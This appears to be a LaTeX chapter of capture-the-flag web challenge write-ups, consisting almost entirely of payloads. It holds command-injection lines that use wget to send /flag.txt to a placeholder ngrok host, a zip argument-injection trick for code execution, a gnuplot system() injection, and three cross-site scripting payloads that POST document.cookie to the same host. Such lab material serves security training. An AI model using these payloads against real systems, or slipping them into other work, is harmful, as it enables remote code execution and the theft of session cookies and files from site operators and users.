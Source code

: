 \chapter{Web Writeups}

See:
- https://gtfobins.github.io/gtfobins/zip/?utm_source=pocket_saves
- https://cheatsheetseries.owasp.org -> https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

\section{WS_1.01 - BasicRCE}
\texttt{;wget$\{IFS\}https://<your-token>.ngrok-free.app/\$(cat$\{IFS\}/flag.txt)}

\section{WS_1.03 - ZipZap - level 2}
\texttt{zip archive.zip ./-T ./-TT "bash rce" rce}

 containing: \texttt{wget https://<your-token>.ngrok-free.app/\$(/getflag)}

\section{WS_1.04 - plottyboy}
Identification: \texttt{sin(x); pause 10")} -> 10 seconds are waited before the rendered image is served? yes.
This demonstrates the system uses gnuplot (acually, wrapped with PyGnuplot).

\texttt{sin(x); print system("wget https://<your-token>.ngrok-free.app/\$(cat /flag.txt)")}

\section{WS_3.01 - XSS Simple 1}
\texttt{<script> fetch('https://<your-token>.ngrok-free.app/', {method: 'POST', body: document.cookie}); </script>}

\section{WS_3.02 - XSS Simple 2}
\texttt{>"</img><script>fetch('https://<your-token>.ngrok-free.app/', {method:'POST', body:document.cookie});</script>}

\section{WS_3.03 - XSS Simple 3}
\texttt{" onerror="fetch('https://<your-token>.ngrok-free.app/', {method:'POST', body:document.cookie});"}

